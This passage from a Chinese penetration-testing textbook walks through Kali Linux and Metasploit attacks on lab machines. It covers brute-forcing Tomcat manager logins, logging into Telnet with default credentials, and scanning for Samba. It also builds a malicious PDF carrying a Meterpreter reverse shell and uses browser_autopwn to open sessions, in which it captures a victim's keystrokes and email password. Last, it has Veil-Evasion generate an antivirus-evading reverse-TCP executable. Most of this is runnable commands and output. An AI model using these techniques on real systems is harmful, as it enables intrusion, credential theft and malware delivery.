[-] 192.168.41.142:8180 TOMCAT_MGR - [15/63] - /manager/html [Apache-Coyote/1.1] [Tomcat Application Manager] failed to login as 'role1'
[*] 192.168.41.142:8180 TOMCAT_MGR - [16/63] - Trying username:'root' with password:'root'
[-] 192.168.41.142:8180 TOMCAT_MGR - [16/63] - /manager/html [Apache-Coyote/1.1] [Tomcat Application Manager] failed to login as 'root'
[*] 192.168.41.142:8180 TOMCAT_MGR - [17/63] - Trying username:'tomcat' with password:'tomcat'
[+] http://192.168.41.142:8180/manager/html [Apache-Coyote/1.1] [Tomcat Application Manager] successful login 'tomcat' : 'tomcat'
[*] 192.168.41.142:8180 TOMCAT_MGR - [18/63] - Trying username:'both' with password:'both'
[-] 192.168.41.142:8180 TOMCAT_MGR - [18/63] - /manager/html [Apache-Coyote/1.1] [Tomcat Application Manager] failed to login as 'both'
[*] 192.168.41.142:8180 TOMCAT_MGR - [58/63] - Trying username:'both' with password:'s3cret'
[-] 192.168.41.142:8180 TOMCAT_MGR - [58/63] - /manager/html [Apache-Coyote/1.1] [Tomcat Application Manager] failed to login as 'both'
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed 
```

以上输出信息显示了攻击 Tomcat 服务的一个过程。从输出的结果中可以看到登录 Tomcat 服务的用户名和密码都为 tomcat。

### 6.4.4 渗透攻击 Telnet 服务

Telnet 服务是一种“客户端/服务器”架构，在整个 Telnet 运行的流程架构中一定包括两个组件，分别是 Telnet 服务器和 Telnet 客户端。由于 Telnet 是使用明文的方式传输数据的，所以并不安全。这里就可以使用 Metasplolit 中的一个模块，可以破解出 Telnet 服务的用户名和密码。下面将介绍渗透攻击 Telnet 服务。

（1）启动 MSF 终端。执行命令如下所示：

```
root@kali:~# msfconsole
msf> 
```

（2）使用 telnet_version 模块，并查看可配置的选项参数。执行命令如下所示：


从输出的信息中，可以看到有四个必须配置选项。其中三个选项已经配置，现在配置 RHOSTS 选项。

（3）配置 RHOSTS 选项，并启动扫描。执行命令如下所示：


从以上输出的信息，仅看到一堆文本信息。但是在这些信息中可以看到，显示了 Telnet 的登录认证信息 Login with msfadmin/msfadmin to get started。从这条信息中，可以得知目标主机 Telnet 服务的用户名和密码都为 msfadmin。此时可以尝试登录。

（4）登录目标主机的 Telnet 服务。执行命令如下所示：

```
root@kali:~# telnet -l msfadmin 192.168.6.105
Trying 192.168.6.105…
Connected to 192.168.6.105.
Escape character is '^]'.
Password:                                 #输入密码 msfadmin
Last login: Tue Jul 8 06:32:46 EDT 2014 on tty1
Linux metasploitable 2.6.24-16-server #1 SMP Thu Apr 10 13:58:00 UTC 2008 i686
The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.
Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.
To access official Ubuntu documentation, please visit:
http://help.ubuntu.com/
No mail.
msfadmin@metasploitable:~$ 
```

以上信息显示了登录 Telnet 服务的信息。在输出信息中看到 msfadmin@metasploitable:~$提示符，则表示成功登录了 Telnet 服务。此时可以执行一些标准的 Linux 命令。例如，查看多个组的成员，执行命令如下所示：

```
msfadmin@metasploitable:~$ id
uid=1000(msfadmin) gid=1000(msfadmin) groups=4(adm),20(dialout),24(cdrom), 25(floppy),29(audio),30(dip),44(video),46(plugdev),107(fuse),111(lpadmin),112(admin),119(sambashare),1000(msfadmin) 
```

输出信息中显示了 msfadmin 用户的相关信息。其中，gid 表示 groups 中第 1 个组账号为该用户的基本组，groups 中的其他组账号为该用户的附加组。

### 6.4.5 渗透攻击 Samba 服务

Samba 是一套实现 SMB（Server Messages Block）协议、跨平台进行文件共享和打印共享服务的程序。Samba 服务对应的端口有 139 和 445 等，只要开启这些端口后，主机就可能存在 Samba 服务远程溢出漏洞。下面将介绍渗透攻击 Samba 服务器。

（1）启动 MSF 终端。执行命令如下所示：

```
root@kali:~# msfconsole
msf> 
```

（2）使用 smb_version 模块，并查看该模块可配置的选项参数。执行命令如下所示：


（3）配置 RHOSTS 选项。执行命令如下所示：

```
msf auxiliary(smb_version) > set RHOSTS 192.168.6.105
RHOSTS => 192.168.6.105 
```

（4）启动扫描。执行命令如下所示：

```
msf auxiliary(smb_version) > exploit
[*] 192.168.6.105:445 is running Unix Samba 3.0.20-Debian (language: Unknown) (domain:WORKGROUP)
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed 
```

从输出的信息中，可以看到扫描到正在运行的 Samba 服务器及其版本。

在 Metasploit 中使用 smb_version 模块，还可以指定扫描某个网络内所有运行 Samba 服务器的主机。下面将介绍扫描 192.168.6.0/24 网络内开启 Samba 服务器的所有主机。

（1）选择使用 smb_version 模块。执行命令如下所示：

```
msf > use auxiliary/scanner/smb/smb_version 
```

（2）配置 smb_version 模块中可配置的选项参数。执行命令如下所示：

```
msf auxiliary(smb_version) > set RHOSTS 192.168.6.0/24
RHOSTS => 192.168.6.0/24
msf auxiliary(smb_version) > set THREADS 255
THREADS => 255 
```

（3）启动扫描。执行命令如下所示：

```
msf auxiliary(smb_version) > exploit
[*] 192.168.6.106:445 is running Windows 7 Ultimate 7601 Service Pack (Build 1) (language: Unknown) (name:WIN-RKPKQFBLG6C) (domain:WORKGROUP)
[*] 192.168.6.105:445 is running Unix Samba 3.0.20-Debian (language: Unknown) (domain:WORKGROUP)
[*] 192.168.6.104:445 is running Windows XP Service Pack 0 / 1 (language: Chinese - Traditional) (name:LYW) (domain:LYW)
[*] 192.168.6.110:445 is running Windows XP Service Pack 0 / 1 (language: Chinese - Traditional) (name:AA-886OKJM26FSW) (domain:WORKGROUP)
[*] Scanned 255 of 256 hosts (099% complete)
[*] Scanned 256 of 256 hosts (100% complete)
[*] Auxiliary module execution completed 
```

从输出的信息中，可以看到 192.168.6.0/24 网络内有四台主机上正在运行着 Samba 服务器。在显示的信息中，可以看到运行 Samba 服务器的操作系统类型。扫描到开启 Samba 服务器的主机后，就可以进行渗透攻击了。

### 6.4.6 PDF 文件攻击

PDF 是一种文件格式，该文件的使用比较广泛，并且容易传输。通常在工作中，用户都是从工作程序中打开了一个合法的 PDF 文档。当打开该文档时，该用户的主机就有可能被攻击。Metasploit 提供了一个渗透攻击模块，可以来创建一个攻击载荷，通过传递该攻击载荷对目标系统进行渗透攻击。本小节将介绍创建 PDF 文件攻击载荷。

创建 PDF 文件的具体操作步骤如下所示。

（1）启动 MSFCONSOLE。执行命令如下所示：

```
root@kali:~# msfconsole 
```

（2）搜索所有有效的 PDF 模块。执行命令如下所示：


以上输出信息显示了 PDF 所有可用的模块。此时可以选择相应模块进行配置，配置后方便进行攻击。

（3）使用 Adobe PDF Embedded EXE 模块。执行命令如下所示：

```
msf > use exploit/windows/fileformat/adobe_pdf_embedded_exe 
```

（4）查看 adobe_pdf_embedded_exe 模块有效的选项。执行命令如下所示：


以上信息显示了 adobe_pdf_embedded_exe 模块所有可用的选项。此时配置必须的选项，然后进行渗透攻击。

（5）设置用户想要生成的 PDF 文件名。执行命令如下所示：

```
msf exploit(adobe_pdf_embedded_exe) > set FILENAME evildocument.pdf
FILENAME => evildocument.pdf 
```

（6）设置 INFILENAME 选项。为了利用，使用该选项指定用户访问的 PDF 文件位置。执行命令如下所示：

```
msf exploit(adobe_pdf_embedded_exe) > set INFILENAME /root/Desktop/ willie.pdf
INFILENAME => /root/Desktop/willie.pdf 
```

（7）运行 exploit。执行命令如下所示：

```
msf exploit(adobe_pdf_embedded_exe) > exploit
[*] Reading in '/root/Desktop/willie.pdf'…
[*] Parsing '/root/Desktop/willie.pdf'…
[*] Using 'windows/meterpreter/reverse_tcp' as payload…
[*] Parsing Successful. Creating 'evildocument.pdf' file…
[+] evildocument.pdf stored at /root/.msf4/local/evildocument.pdf 
```

输出的信息显示了 evildocument.pdf 文件已经生成，而且被保存到/root/.msf4/local 目录中。

### 6.4.7 使用 browser_autopwn 模块渗透攻击浏览器

Browser Autopwn 是由 Metasploit 提供的一个辅助模块。当访问一个 Web 页面时，它允许用户自动地攻击一个入侵主机。Browser Autopwn 在攻击之前，会先进行指纹信息操作，这意味着它不会攻击 Mozilla Firefox 浏览器，而只会攻击系统自带的 Internet Explorer 7 浏览器。本小节将介绍 browser_autopwn 模块的使用。

加载 browser_autopwn 模块的具体操作步骤如下所示。

（1）启动 MSFCONSOLE。执行命令如下所示：

```
root@kali:~# msfconsole 
```

（2）查询 autopwn 模块。


输出的信息显示了有一个 autopwn 模块。

（3）使用 browser_autopwn 模块。执行命令如下所示：

```
msf > use auxiliary/server/browser_autopwn 
```

执行以上命令后，没有任何信息输出。

（4）设置 payload。执行命令如下所示：

```
msf auxiliary(browser_autopwn) > set payload windows/meterpreter/ reverse_tcp
payload => windows/meterpreter/reverse_tcp 
```

（5）查看 payload 的选项。执行命令如下所示：


输出的信息显示了 payload 模块的选项。此时就可以选择需要设置的选项进行配置。

（6）配置 LHOST 选项。执行命令如下所示：

```
msf auxiliary(browser_autopwn) > set LHOST 192.168.41.234
LHOST => 192.168.41.234 
```

以上输出的信息表示指定本地主机使用的 IP 地址是 192.168.41.234。

（7）配置 URIPATH 选项。执行命令如下所示：

```
msf auxiliary(browser_autopwn) > set URIPATH "filetypes"
URIPATH => filetypes 
```

（8）启用渗透攻击。执行命令如下所示：

```
msf auxiliary(browser_autopwn) > exploit
[*] Auxiliary module execution completed
[*] Setup
[*] Obfuscating initial javascript 2014-04-30 19:00:49 +0800
[*] Done in 0.718574284 seconds
msf auxiliary(browser_autopwn) >
[*] Starting exploit modules on host 192.168.41.234…
[*] ---
[*] Starting exploit multi/browser/java_atomicreferencearray with payload java/meterpreter/ reverse_tcp
[*] Using URL: http://0.0.0.0:8080/BjlwyiXpeQHIG
[*] Local IP: http://192.168.41.234:8080/BjlwyiXpeQHIG
[*] Server started.
[*] Starting exploit multi/browser/java_jre17_jmxbean with payload java/meterpreter/reverse_tcp
[*] Using URL: http://0.0.0.0:8080/NVVrXNZ
[*] Local IP: http://192.168.41.234:8080/NVVrXNZ
[*] Server started.
…省略部分内容…
[*] Started reverse handler on 192.168.41.234:6666
[*] Started reverse handler on 192.168.41.234:7777
[*] Starting the payload handler…
[*] Starting the payload handler…
[*] --- Done, found 16 exploit modules
[*] Using URL: http://0.0.0.0:8080/filetypes
[*] Local IP: http://192.168.41.234:8080/filetypes
[*] Server started.
[*] 192.168.41.146  browser_autopwn - Handling '/filetypes'   #访问主机的客户端
[*] 192.168.41.146  browser_autopwn - Handling '/filetypes'
[*] Meterpreter session 1 opened (192.168.41.234:3333 -> 192.168.41.146:1073) at 2014-04-30 19:16:54 +0800
[*] Sending stage (769024 bytes) to 192.168.41.146
[*] Session ID 1 (192.168.41.234:3333 -> 192.168.41.146:1071) processing InitialAutoRunScript 'migrate -f'
[+] Successfully migrated to process
[*] Current server process: qjRc.exe (1824)
[*] Spawning notepad.exe process to migrate to
[+] Migrating to 1260 
```

以上输出信息是一个漏洞攻击过程。此过程中输出的内容较多，由于篇幅的原因，中间部分内容使用省略号（……）取代了。从输出的过程中看到客户端 192.168.41.146 访问了 192.168.41.234 主机，并成功建立了一个活跃的会话。该会话是由客户端访问后产生的。当渗透测试启动后，在客户端的 IE 浏览器中输入[`IP`](http://IP) Address:8080/filetypes 访问主机，将产生活跃的会话。

（9）从第（8）步的输出结果中可以看到，成功建立的会话 ID 为 1。为了激活此会话，执行命令如下所示：

```
msf auxiliary(browser_autopwn) > sessions -i 1
[*] Starting interaction with 1…
meterpreter > 
```

从输出的结果中可以看到，启动了交互会话 1 进入到了 Meterpreter 命令行。

（10）查看能运行的 Meterpreter 命令列表。执行命令如下所示：


输出的信息显示了 Meterpreter 命令行下可运行的所有命令。输出的信息中，每个命令的作用都有详细的描述。用户可以根据自己的情况，执行相应的命令。

（11）启动键盘输入，执行命令如下所示：

```
meterpreter > keyscan_start
Starting the keystroke sniffer… 
```

（12）获取键盘输入信息，执行命令如下所示：

```
meterpreter > keyscan_dump
Dumping captured keystrokes…
<Back> <Back> <Back> <Back> <N1> <N0> <N1> <N2> <N0> <N7> <N3> <N5> <N5> <N4> <Back> <Back> <Back> <Back> <Back> mail.qq.com <Return> <N1> <N2> <N3> <N4> <N5> <N6> <N7> <N8> <N9> <N1> 123456 <Return> 
```

输出的信息显示了客户端在浏览器中输入的所有信息。如访问了 mail.qq.com 网站，登录的邮箱地址为 1234567891，密码为 123456。

### 6.4.8 在 Metasploit 中捕获包

在 Metasploit 中，通过使用模块进行渗透攻击可以获取到一个 Meterpreter Shell。在 Meterpreter Shell 中，可以捕获目标系统中的数据包。下面将介绍如何在 Metasploit 中捕获数据包。

（1）首先要确定获取到一个活跃的会话，并有一个连接到目标主机的 Meterpreter Shell。下面是 Windows 7 连接到攻击主机的一个 Meterpreter Shell，如下所示：

```
msf exploit(handler) > exploit
[*] Started reverse handler on 192.168.6.103:4444
[*] Starting the payload handler…
[*] Sending stage (769536 bytes) to 192.168.6.110
[*] Meterpreter session 1 opened (192.168.6.103:4444 -> 192.168.6.110:2478) at 2014-07-17 10:44:47 +0800
meterpreter > 
```

从输出的信息中，可以看到成功的打开了一个 Meterpreter 会话。接下来，就可以使用 run packetrecorder 命令捕获目标系统的数据包了。

（2）查看 packetrecorder 命令的参数。执行命令如下所示：

```
meterpreter > run packetrecorder
Meterpreter Script for capturing packets in to a PCAP file
on a target host given a interface ID.
OPTIONS:
  -h             Help menu.
  -i <opt> Interface ID number where all packet capture will be done.
  -l <opt> Specify and alternate folder to save PCAP file.
  -li            List interfaces that can be used for capture.
  -t <opt> Time interval in seconds between recollection of packet, default 30 seconds. 
```

以上输出的信息显示 run packetrecorder 命令的作用和可用选项参数。在捕获数据前，首先要指定捕获接口。所以，需要查看主机中可用的捕获接口。

（3）查看可用的捕获网络接口。执行命令如下所示：

```
meterpreter > run packetrecorder -li
1 - 'VMware Accelerated AMD PCNet Adapter' ( type:0 mtu:1514 usable:true dhcp:true wifi:false ) 
```

从输出的信息中，可以看到只有一个网络接口。

（4）指定捕获接口开始捕获数据，并将捕获的文件保存到桌面上。执行命令如下所示：

```
meterpreter > run packetrecorder -i 1 -l /root/Desktop
[*] Starting Packet capture on interface 1
[+] Packet capture started
[*] Packets being saved in to /root/Desktop/logs/packetrecorder/ AA-886OKJM26FSW_ 20140717.2700/AA-886OKJM26FSW_20140717.5608.cap
[*] Packet capture interval is 30 Seconds
……
^C
[*] Interrupt
[+] Stopping Packet sniffer… 
```

执行以上命令后，将开始捕获目标主机的数据。捕获的文件将会保存到指定位置的一个 logs 目录中。以上捕获过程不会自动停止，如果要停止，则按下 Ctrl+C 组合键。

在 Metasploit 中捕获的数据包，可以使用 Wireshark 工具打开并进行分析。在 Kali Linux 中，默认已经安装了 Wireshark 工具。

【实例 6-3】下面演示使用 Wireshark 工具，打开捕获的文件。具体操作步骤如下所示。

（1）启动 Wireshark，使它在后台运行。执行命令如下所示：

```
root@kali:~# wireshark & 
```

或者在图形界面依次选择“应用程序”|Kali Linux|Top 10 Security Tools|wireshark 命令，将显示如图 6.16 所示的界面。


图 6.16 警告信息

（2）该界面显示的警告信息是因为当前使用超级用户运行该程序的。此时单击“确定”按钮，将显示如图 6.17 所示的界面。


图 6.17 Wireshark 主界面

（3）该界面就是 Wireshark 的主界面。此时在菜单栏中依次选择 File|Open 命令，选择要打开的捕获文件。打开捕获文件，界面如图 6.18 所示。


图 6.18 捕获的数据包

（4）从该界面可以看到捕获的所有数据包。在 Wireshark 中，还可以通过使用各种显示过滤器过滤一类型的数据包。如果想查看一个完整的会话，右键单击任何一行并选择 Follow TCP Stream 命令查看，如图 6.19 所示。


图 6.19 FTP 会话

（5）该界面显示了一个完整的 FTP 会话。如登录 FTP 服务器的用户名、密码、端口及访问的目录等。

在 Kali 中，可以使用 Xplico 工具分析 Wireshark 捕获的文件。但是，该文件的格式必须是.pcap。该工具默认在 Kali 中没有安装，需要先安装才可以使用。下面将介绍安装并使用 Xplico 工具分析数据包。

安装 Xplico 工具。执行命令如下所示：

```
root@kali:~# apt-get install xplico 
```

执行以上命令后，运行过程中没有报错的话，则 Xplico 工具就安装成功了。接下来还需要将 Xplico 服务启动，才可以使用。由于 Xplico 基于 Web 界面，所以还需要启动 Apache 2 服务。

启动 Apache 服务。执行命令如下所示：

```
root@kali:~# service apache2 start
[OK] Start web server: apache2. 
```

从输出的信息中，可以看到 Apache2 服务已启动。

注意：在某个系统中启动 Apache 2 服务时，可能会出现[….] Starting web server: apache2apache2: Could not reliably determine the server's fully qualified domain name, using 127.0.1.1 for ServerName 信息。这是因为 Apache 2 服务器的配置文件中没有配置 ServerName 选项，该信息不会影响 Web 服务器的访问。

启动 Xplico 服务。执行命令如下所示：

```
root@kali:~# service xplico start
[....] Starting : XplicoModifying priority to -1
. ok 
```

从以上输出信息，可以看到 Xplico 服务已成功启动。现在就可以使用 Xplico 服务了。

【实例 6-4】使用 Xplico 工具解析捕获的 pcap 文件。具体操作步骤如下所示。

（1）在浏览器中输入[`localhost:9876，将打开如图 6.20 所示的界面。`](http://localhost:9876，将打开如图 6.20 所示的界面。)


图 6.20 Xplico 登录界面

（2）该界面用来登录 Xplico 服务。Xplico 默认的用户名和密码都是 xplico，输入用户名和密码成功登录 Xplico 后，将显示如图 6.21 所示的界面。


图 6.21 案例列表

（3）从该界面可以看到没有任何内容。默认 Xplico 服务中，没有任何案例及会话。需要创建案例及会话后，才可以解析 pcap 文件。首先创建案例，在该界面单击左侧栏中的 New Case 命令，将显示如图 6.22 所示的界面。


图 6.22 新建案例

（4）在该界面选择 Uploading PCAP capture file/s，并指定案例名。本例中设置为 Test，然后单击 Create 按钮，将显示如图 6.23 所示的界面。


图 6.23 新建的案例

（5）在该界面的案例列表中显示了新建的案例。此时单击 Test，查看案例中的会话，如图 6.24 所示。


图 6.24 监听的会话

（6）从该界面可以看到没有任何会话信息，接下来创建会话。单击左侧栏中的 New Session 命令，将显示如图 6.25 所示的界面。


图 6.25 新建会话

（7）在该界面 Session name 对应的文本框中输入想创建的会话名，然后单击 Create 按钮，将显示如图 6.26 所示的界面。


图 6.26 新建的会话

（8）从该界面可以看到新建了一个名为 Windows XP Target 的会话。此时进入该会话中，就可以加载 pcap 文件解析分析了。单击会话名 WindowsXPtarget，将显示如图 6.27 所示的界面。


图 6.27 上传 pcap 文件

（9）该界面是用来显示 pcap 文件详细信息的。目前还没有上传任何 pcap 文件，所以单击 Browse 按钮选择要解析的捕获文件。然后单击 Upload 按钮，将显示如图 6.28 所示的界面。


图 6.28 成功上传了捕获文件

（10）从该界面可以看到 pcap 文件分为几个部分。关于 pcap 文件的每类型数据包，可以对应的查看。该界面显示了 10 种类型，如 HTTP、MMS、Emails、FTP-TFTP-HTTP file 和 Web Mail 等。在该界面单击左侧栏中的 Web 并选择 Site 命令，将显示如图 6.29 所示的界面。


图 6.29 显示了捕获文件中的站点

（11）该界面显示了捕获文件中所有访问的站点，从该界面的底部可以看到共有 8 页信息。在该界面也可以进行搜索。例如搜索 baidu，将显示如图 6.30 所示的界面。


图 6.30 搜索结果

（12）从该界面可以看到，搜索的结果共有 3 页。如果想查看目标系统访问过的图片，单击左侧栏中的 Image 选项，将显示如图 6.31 所示的界面。


图 6.31 访问的图片

（13）从该界面可以看到目标系统访问过的所有图片信息。

# 6.5 免杀 Payload 生成工具 Veil

## 6.5 免杀 Payload 生成工具 Veil

Veil 是一款利用 Metasploit 框架生成相兼容的 Payload 工具，并且在大多数网络环境中能绕过常见的杀毒软件。本节将介绍 Veil 工具的安装及使用。

在 Kali Linux 中，默认没有安装 Veil 工具。这里首先安装 Veil 工具，执行如下所示的命令：

```
root@kali:~# apt-get install veil 
```

执行以上命令后，如果安装过程没有提示错误的话，则表示 Veil 工具安装成功。由于安装该工具依赖的软件较多，所以此过程时间有点长。

启动 Veil 工具。执行命令如下所示：

```
root@kali:~# veil-evasion 
```

执行以上命令后，将会输出大量的信息。如下所示：

```
===============================================
 Veil First Run Detected… Initializing Script Setup…
===============================================
[*] Executing ./setup/setup.sh
===============================================
 Veil-Evasion Setup Script | [Updated]: 01.15.2015
===============================================
 [Web]: https://www.veil-framework.com | [Twitter]: @VeilFramework
===============================================
[*] Initializing Apt Dependencies Installation
[*] Adding i386 Architecture To x86_64 System
[*] Updating Apt Package Lists
命中 http://mirrors.ustc.edu.cn kali Release.gpg
命中 http://mirrors.ustc.edu.cn kali/updates Release.gpg
命中 http://mirrors.ustc.edu.cn kali Release
命中 http://mirrors.ustc.edu.cn kali/updates Release
命中 http://mirrors.ustc.edu.cn kali/main Sources
命中 http://mirrors.ustc.edu.cn kali/non-free Sources
命中 http://mirrors.ustc.edu.cn kali/contrib Sources
命中 http://mirrors.ustc.edu.cn kali/main amd64 Packages
命中 http://mirrors.ustc.edu.cn kali/non-free amd64 Packages
命中 http://mirrors.ustc.edu.cn kali/contrib amd64 Packages
获取：1 http://mirrors.ustc.edu.cn kali/main i386 Packages [8,474 kB]
命中 http://http.kali.org kali Release.gpg
命中 http://security.kali.org kali/updates Release.gpg
命中 http://http.kali.org kali Release
……
忽略 http://http.kali.org kali/non-free Translation-en
下载 17.8 MB，耗时 20 秒 (859 kB/s)
正在读取软件包列表… 完成
 [*] Installing Wine i386 Binaries
正在读取软件包列表… 完成
正在分析软件包的依赖关系树
正在读取状态信息… 完成
将会安装下列额外的软件包：
 gcc-4.7-base:i386 libasound2:i386 libc-bin libc-dev-bin libc6 libc6:i386
 libc6-dev libc6-i686:i386 libdbus-1-3:i386 libdrm-intel1:i386
 libdrm-nouveau1a:i386 libdrm-radeon1:i386 libdrm2:i386 libexpat1:i386
 libffi5:i386 libfontconfig1:i386 libfreetype6:i386 libgcc1:i386
[*] Cleaning Up Setup Files
[*] Updating Veil-Framework Configuration
 Veil-Framework configuration:
 [*] OPERATING_SYSTEM = Kali
 [*] TERMINAL_CLEAR = clear
 [*] TEMP_DIR = /tmp/
 [*] MSFVENOM_OPTIONS =
 [*] METASPLOIT_PATH = /usr/share/metasploit-framework/
 [*] PYINSTALLER_PATH = /usr/share/pyinstaller/
[*] VEIL_EVASION_PATH = /usr/share/veil-evasion/
 [*] PAYLOAD_SOURCE_PATH = /root/veil-output/source/
 [*] Path '/root/veil-output/source/' Created
 [*] PAYLOAD_COMPILED_PATH = /root/veil-output/compiled/
 [*] Path '/root/veil-output/compiled/' Created
 [*] Path '/root/veil-output/handlers/' Created
 [*] GENERATE_HANDLER_SCRIPT = True
 [*] HANDLER_PATH = /root/veil-output/handlers/
 [*] HASH_LIST = /root/veil-output/hashes.txt
[*] VEIL_CATAPULT_PATH = /usr/share/Veil-Catapult/
 [*] Path '/root/veil-output/catapult/' Created
 [*] CATAPULT_RESOURCE_PATH = /root/veil-output/catapult/
[*] Path '/etc/veil/' Created
 Configuration File Written To '/etc/veil/settings.py' 
```

以上信息只有在第一次运行 Veil 时才显示。在此过程中，初始化一些脚本、软件包列表、更新配置及安装需要的软件包。在此过程中以图形界面的形式依次安装了 Python 及它的两个模块 pywin32-218 和 pycrypto-2.6。下面依次进行安装。首先弹出的对话框，如图 6.32 所示。


图 6.32 Python 初始界面

该界面是安装 Python 的初始界面。这里使用默认设置，单击 Next 按钮，将显示如图 6.33 所示的界面。


图 6.33 选择 Python 安装位置

在该界面单击 Next 按钮，将显示如图 6.34 所示的界面。该界面提示 C:\Python27 已存在，确认是否要覆盖已存在的文件。这里单击 Yes 按钮，将显示如图 6.35 所示的界面。


图 6.34 确认 Python 的安装位置


图 6.35 自定义 Python

在该界面自定义安装 Python 的一些功能。这里使用默认的设置，单击 Next 按钮，将显示如图 6.36 所示的界面。


图 6.36 安装完成

该界面提示 Python 已经安装完成。此时单击 Finish 按钮，将显示如图 6.37 所示的界面。


图 6.37 安装 pywin32-218 模块界面

该界面是要求安装 pywin32-218 模块。这里单击“下一步”按钮，将显示如图 6.38 所示的界面。


图 6.38 设置向导

这里使用默认设置，单击“下一步”按钮，将显示如图 6.39 所示的界面。


图 6.39 准备安装

该界面用来确实是否要开始安装。如果确认配置正确的话，单击“下一步”按钮，将显示如图 6.40 所示的界面。


图 6.40 安装完成

从该界面可以看到 pywin32-218 模块已经安装完成。此时单击“结束”按钮，将显示如图 6.41 所示的界面。


图 6.41 安装 pycrypto-2.6 模块初始界面

该界面提示需要安装 pycrypto-2.6 模块。这里单击“下一步”按钮开始安装，如图 6.42 所示。


图 6.42 设置向导

这里使用默认设置，单击“下一步”按钮，将显示如图 6.43 所示的界面。


图 6.43 准备安装

该界面提示将要安装 pycrypto 模块。这里单击“下一步”按钮，将显示如图 6.44 所示的界面。


图 6.44 安装完成

从该界面可以看到以上软件包已安装完成。此时单击“结束”按钮，将显示如下所示的信息：

```
===============================================
 Veil-Evasion | [Version]: 2.4.3
===============================================
 [Web]: https://www.veil-framework.com/ | [Twitter]: @VeilFramework
===============================================
Main Menu
  24 payloads loaded
Available commands:
  use      use a specific payload
  info     information on a specific payload
  list     list available payloads
  update   update Veil to the latest version
  clean    clean out payload folders
  checkvt  check payload hashes vs. VirusTotal
  exit     exit Veil
[>] Please enter a command: 
```

从以上信息中可以看到在 Veil 下，有 24 个攻击载荷可加载，并列出了可用的命令。现在就可以进行各种操作了。例如查看可加载的攻击模块，执行命令如下所示：

```
[>] Please enter a command: list
===============================================
 Veil-Evasion | [Version]: 2.4.3
===============================================
 [Web]: https://www.veil-framework.com/ | [Twitter]: @VeilFramework
===============================================
[*] Available payloads:
  1)   c/meterpreter/rev_tcp
  2)   c/meterpreter/rev_tcp_service
  3)   c/shellcode_inject/virtual
  4)   c/shellcode_inject/void
  5)   cs/meterpreter/rev_tcp
  6)   cs/shellcode_inject/base64_substitution
  7)   cs/shellcode_inject/virtual
  8)   native/Hyperion
  9)   native/backdoor_factory
  10)  native/pe_scrambler
  11)  powershell/shellcode_inject/download_virtual
  12)  powershell/shellcode_inject/psexec_virtual
  13)  powershell/shellcode_inject/virtual
  14)  python/meterpreter/rev_http
  15)  python/meterpreter/rev_http_contained
  16)  python/meterpreter/rev_https
  17)  python/meterpreter/rev_https_contained
  18)  python/meterpreter/rev_tcp
  19)  python/shellcode_inject/aes_encrypt
  20)  python/shellcode_inject/arc_encrypt
  21)  python/shellcode_inject/base64_substitution
  22)  python/shellcode_inject/des_encrypt
  23)  python/shellcode_inject/flat
  24)  python/shellcode_inject/letter_substitution 
```

从输出的信息中，可以看到有 24 个可用的攻击载荷。此时可以利用任何一个攻击载荷，进行渗透攻击。

【实例 6-5】演示使用 Veil 工具中的载荷（本例以 cs/meterpreter/rev_tcp 为例），进行渗透攻击（这里以 Windows 7 作为攻击靶机）。具体操作步骤如下所示。

（1）启动 Veil 工具。执行命令如下所示：

```
root@kali:~# veil-evasion 
```

执行以上命令后，将显示如下所示的信息：

```
===============================================
 Veil-Evasion | [Version]: 2.4.3
===============================================
 [Web]: https://www.veil-framework.com/ | [Twitter]: @VeilFramework
===============================================
Main Menu
  24 payloads loaded
Available commands:
  use      use a specific payload
  info     information on a specific payload
  list     list available payloads
  update   update Veil to the latest version
  clean    clean out payload folders
  checkvt  check payload hashes vs. VirusTotal
  exit     exit Veil
[>] Please enter a command: 
```

在输出的信息中看到[>] Please enter a command:提示符，就表示 Veil 登录成功了。

（2）选择 cs/meterpreter/rev_tcp 攻击载荷。在攻击载荷列表中，cs/meterpreter/rev_tcp 载荷的编号是 5。执行命令如下所示：

```
[>] Please enter a command: use 5
===============================================
 Veil-Evasion | [Version]: 2.4.3
===============================================
 [Web]: https://www.veil-framework.com/ | [Twitter]: @VeilFramework
===============================================
Payload: cs/meterpreter/rev_tcp loaded
Required Options:
Name            Current Value   Description
 ----           -------------   --------------------------
 LHOST                          IP of the metasploit handler
 LPORT          4444            Port of the metasploit handler
 compile_to_exe Y               Compile to an executable
Available commands:
  set       set a specific option value
  info      show information about the payload
  generate  generate payload
  back      go to the main menu
  exit      exit Veil
 [>] Please enter a command: 
```

输出信息显示了 rev_tcp 攻击载荷可配置的选项参数。这里默认指定的本地端口（LPORT）是 4444，LHOST 选项还没有配置。

（3）配置 LHOST 选项参数，并查看攻击载荷的详细信息。执行命令如下所示：

```
[>] Please enter a command: set LHOST 192.168.6.103
[>] Please enter a command: info
===============================================
 Veil-Evasion | [Version]: 2.4.3
===============================================
 [Web]: https://www.veil-framework.com/ | [Twitter]: @VeilFramework
===============================================
Payload information:
  Name:         cs/meterpreter/rev_tcp
  Language:     cs
  Rating:       Excellent
  Description:  pure windows/meterpreter/reverse_tcp stager, no shellcode
Required Options:
Name             Current Value  Description
 ----            ------------- --------------------------
 LHOST           192.168.6.100  IP of the metasploit handler
 LPORT           4444           Port of the metasploit handler
 compile_to_exe  Y              Compile to an executable 
```

从输出的信息中，可以看到 rev_tcp 攻击载荷的详细信息，如攻击载荷名、语言、级别及配置的选项参数等。

（4）此时，使用 generate 命令生成载荷文件。执行命令如下所示：

```
[>] Please enter a command: generate
===============================================
 Veil-Evasion | [Version]: 2.4.3
===============================================
 [Web]: https://www.veil-framework.com/ | [Twitter]: @VeilFramework
===============================================
[*] Press [enter] for 'payload'
 [>] Please enter the base name for output files: backup  #指定输出文件名 
```

在以上命令中指定一个文件名为 backup。然后按下回车键，将显示如下所示的信息：

```
 [*] Executable written to: /root/veil-output/compiled/backup.exe
Language:            cs
 Payload:            cs/meterpreter/rev_tcp
 Required Options:   LHOST=192.168.6.103 LPORT=4444 compile_to_exe=Y
 Payload File:       /root/veil-output/source/backup.cs
 Handler File:       /root/veil-output/handlers/backup_handler.rc
[*] Your payload files have been generated, don't get caught!
 [!] And don't submit samples to any online scanner! ;)
[>] press any key to return to the main menu: 
```

